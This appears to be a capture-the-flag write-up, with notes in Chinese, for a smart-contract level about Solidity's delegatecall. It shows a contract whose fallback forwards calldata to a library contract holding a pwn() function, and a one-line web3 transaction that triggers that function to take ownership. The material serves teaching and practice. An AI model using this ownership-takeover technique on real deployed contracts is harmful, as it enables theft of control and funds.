 ## 0x01 Task

claim ownership

```javascript
pragma solidity ^0.4.18;

contract Delegate {

  address public owner; // occupies slot 0

  function Delegate(address _owner) public {
    owner = _owner;
  }

    // 我的目标就是要调用这个函数
  function pwn() public {
    owner = msg.sender; // save msg.sender to slot 0
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  function Delegation(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  function() public {
    if(delegate.delegatecall(msg.data)) {
      this;
    }
  }
}
```

## 0x02 Solution

`Delegatecall`

delegate是一个特殊函数调用，通常调用的是其他库或其他合约中的函数。

`delegatecall()`的优势在于能够保存现状态的合约内容（包括`storage`/`msg.sender`/`msg.values`等）

delegatecall的调用方式是通过函数名hash后的前4个bytes来确定调用函数的

```javascript
//sha3的返回值前两个为0x，所以要切0-10个字符。
contract.sendTransaction({data: web3.sha3("pwn()").slice(0,10)});
```

